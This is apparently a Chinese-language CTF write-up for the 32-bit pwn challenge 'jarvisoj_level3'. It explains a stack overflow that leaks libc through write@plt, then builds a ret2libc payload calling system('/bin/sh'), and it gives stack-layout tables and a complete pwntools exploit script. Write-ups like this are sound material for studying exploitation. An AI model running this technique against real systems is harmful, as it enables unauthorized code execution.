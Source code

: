 ```yaml
---
title: 'jarvisoj_level3'
date: 2024-11-07 13:00:00 +0800
categories: [ctf,pwn]
tags: [32bit]
---
```

![image-20231229210336379](../assets/img/old_imgs/image-20231229210336379.png)

- 函数参数劫持

- `32`位泄露`libc`

  `32`位程序的传参是栈的后四位开始,要注意的是,`32`位下`write,put`的`ret`位置是紧跟函数后面的

  `payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)`

  > 这段代码中的p32(elf.sym['main'])就是ret,同时满足填充栈,传入参数

| rbp  |           |       |            |
| ---- | --------- | ----- | ---------- |
|      | padding   |       | 0x88       |
|      |           | leave | 0x4        |
|      | write_plt | ret   |            |
|      | main_addr | ret_l | 返回的地址 |
|      | 0x1       |       | arg1       |
|      | wirte_got |       | arg2       |
|      | 0x4       |       | arg3       |

> payload1

| rbp  |             |       |      |
| ---- | ----------- | ----- | ---- |
|      | padding     |       | 0x88 |
|      |             | leave | 0x4  |
|      | system_addr | ret   |      |
|      | 0xdeadbeef  |       |      |
|      | bin_sh_addr |       | aeg1 |

> payload2

```python
from pwn import *
#context.log_level = 'debug'
io = process('./level3')
#io = gdb.debug('./level3','break main')
elf = ELF('./level3')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)
io.sendline(payload1)
io.recvuntil('Input:\n')
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))
baseoffset = write_addr - Lib.sym['write']
sys_addr = baseoffset + Lib.sym['system']
bin_sh_addr = baseoffset + next(Lib.search(b'/bin/sh'))
payload2 = b'A'*(0x88+0x4)+p32(sys_addr)+p32(0xdeadbeef)+p32(bin_sh_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```
